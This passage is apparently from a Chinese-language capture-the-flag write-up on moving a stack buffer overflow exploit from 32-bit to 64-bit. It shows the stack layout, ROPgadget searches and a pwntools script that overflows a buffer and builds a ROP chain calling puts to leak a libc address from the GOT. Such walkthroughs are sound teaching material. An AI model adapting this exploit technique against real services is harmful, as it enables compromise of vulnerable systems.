 ### 区别

题目代码是一样的，只不过是编译的时候没有用-m32编译选项，通过分析，发现栈上的返回地址和v3变量的偏移发生了变化。而且32位下的利用方式不再有效，因为64位下函数的参数传递不是通过栈，而是通过寄存器。而我们能控制栈上的数据，所以需要利用ROP把栈上布置好的数据想办法pop到寄存器里，然后去调用execve或者是one_gadget，就可以了。首先我们看看栈的变化：

```c
-000000000000003F v3              db 51 dup(?)
-000000000000000C v4              dd ?
-0000000000000008 v5              dq ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

v5的canary变成了8个字节，所以是51+8+4=63，就是'?'这个字符，即控制v4为'?'

### ROP

那么如何泄露一个libc函数地址呢，32位下我用的是write函数，有三个参数，64位下前三个参数所在到的寄存器是rdi，rsi，rdx，利用ROPgadget寻找相应指令

```bash
➜  ROPgadget --binary vul64 | grep "pop rdi"
0x0000000000400933 : pop rdi ; ret
➜  ROPgadget --binary vul64 | grep "pop rsi"
0x0000000000400931 : pop rsi ; pop r15 ; ret
➜  ROPgadget --binary vul64 | grep "pop rdx"
```

发现没有找到pop rdx，而且调试发现如果不修改rdx时，劫持到这之后rdx的值非常大，显然会出错，那么我们就换个函数puts，不过puts函数遇到0x00就会停止，是否能成功的输出got表中的函数地址呢？我们尝试一下，利用如下代码：

```python

from pwn import *
context(arch='amd64',os='linux',log_level='debug')

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") 
myelf = ELF("./vul64")
io = process(myelf.path)
libc_read = libc.symbols['read']
plt_puts = myelf.plt['puts']
got_read = myelf.got['read']
elf_main = myelf.symbols['main']

print "libc_read: "+str(hex(libc_read))

rop_pop_rdi = 0x400933

payload = ""
payload += 'A'*51+'?'
payload += p64(0)
payload += p64(rop_pop_rdi)
payload += p64(got_read)
payload += p64(plt_puts)
payload += p64(elf_main)

io.recv()
io.sendline(payload)
io.recv()
io.interactive()

```
